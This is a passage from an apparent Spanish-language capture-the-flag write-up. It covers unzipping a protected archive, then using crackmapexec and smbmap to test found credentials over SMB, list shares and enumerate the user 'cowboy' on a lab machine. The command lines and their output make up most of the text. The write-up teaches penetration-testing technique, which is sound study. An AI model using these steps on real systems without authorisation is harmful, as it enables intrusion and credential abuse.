 Ahora sí, ya podemos descomprimir el **archivo ZIP**:
```bash
unzip secretito.zip
Archive:  secretito.zip
[secretito.zip] password password: 
 extracting: password

cat password
...
```
Resulta que tiene una contraseña.

Pero no tenemos un usuario válido, aunque la contraseña del **archivo ZIP** parece un usuario.

Comprobemos si lo es con **crackmapexec**:
```bash
crackmapexec smb 192.168.100.100 -u 'sebastian' -p '********'
SMB         192.168.100.100 445    SEDITION         [*] Windows 6.1 Build 0 (name:SEDITION) (domain:SEDITION) (signing:False) (SMBv1:False)
SMB         192.168.100.100 445    SEDITION         [+] SEDITION\sebastian:*********
```
Lo es o, por lo menos, funciona como un usuario para el **servicio Samba**.

Pero este usuario no sirve para ver el contenido de otros directorios:
```bash
smbmap -H 192.168.100.100 -u 'sebastian' -p '*********' --no-banner
[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 0 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 192.168.100.100:445	Name: 192.168.100.100     	Status: NULL Session
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	backup                                            	READ ONLY	
	IPC$                                              	NO ACCESS	IPC Service (Samba Server)
	nobody                                            	NO ACCESS	Home Directories
[*] Closed 1 connections
```
Tampoco funciona si lo usamos con el **servicio SSH**.

Algo que podemos hacer con estas credenciales, es obtener los usuarios registrados en la máquina con **crackmapexec**:
```bash
crackmapexec smb 192.168.100.100 -u 'sebastian' -p '*********' --users
SMB         192.168.100.100 445    SEDITION         [*] Windows 6.1 Build 0 (name:SEDITION) (domain:SEDITION) (signing:False) (SMBv1:False)
SMB         192.168.100.100 445    SEDITION         [+] SEDITION\sebastian:********* 
SMB         192.168.100.100 445    SEDITION         [*] Trying with SAMRPC protocol
SMB         192.168.100.100 445    SEDITION         [+] Enumerated domain user(s)
SMB         192.168.100.100 445    SEDITION         SEDITION\cowboy                         
SMB         192.168.100.100 445    SEDITION         [+] Enumerated domain user(s)
SMB         192.168.100.100 445    SEDITION         SEDITION\cowboy
```
Existe el **usuario cowboy**.

